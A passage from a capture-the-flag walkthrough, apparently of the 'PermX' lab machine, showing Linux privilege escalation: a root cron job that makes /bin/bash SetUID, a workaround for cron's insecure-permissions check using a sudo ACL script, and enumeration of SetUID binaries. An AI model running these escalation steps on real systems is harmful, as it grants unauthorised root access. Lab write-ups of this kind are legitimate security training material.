 I’ll create a cron that sets `/bin/bash` as SetUID every minute:

```

mtz@permx:~$ echo "* * * * * root chmod 6777 /bin/bash" >> /etc/crontab 

```

As is, this never runs. To see why, I’ll look at the status of the `cron` service as root:

```

root@permx:~# service cron status
● cron.service - Regular background program processing daemon
     Loaded: loaded (/lib/systemd/system/cron.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-10-28 19:03:52 UTC; 30min ago
       Docs: man:cron(8)
   Main PID: 2347 (cron)
      Tasks: 1 (limit: 4513)
     Memory: 344.0K
        CPU: 24ms
     CGroup: /system.slice/cron.service
             └─2347 /usr/sbin/cron -f -P

Oct 28 19:03:52 permx cron[2347]: (CRON) INFO (pidfile fd = 3)
Oct 28 19:03:52 permx cron[2347]: (*system*) INSECURE MODE (group/other writable) (/etc/crontab)
Oct 28 19:03:52 permx cron[2347]: (CRON) INFO (Skipping @reboot jobs -- not system startup)

```

The second log line shows the issue. It’s seeing that the permissions on `/etc/crontab` are too lax (writable outside of root), and skipping this file.

However, I can fix that. I’ll set the facl to not allow mtz any rights on the file:

```

mtz@permx:~$ sudo /opt/acl.sh mtz - /home/mtz/crontab

```

Now, mtz can no longer read or write the file, but `cron` will reload and now the permissions are good so it will run. When the next minute roles, `bash` is SetUID:

```

mtz@permx:~$ ls -l /bin/bash
-rwsrwsrwx 1 root root 1396520 Mar 14  2024 /bin/bash

```

#### SetUID Binary [Fail]

Another idea would be to find a SetUID binary and modify it so that it gives a shell. I’ll get a list of the SetUID binaries on the box:

```

mtz@permx:~$ find / -perm -4000 2>/dev/null
/usr/bin/mount
/usr/bin/sudo
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
```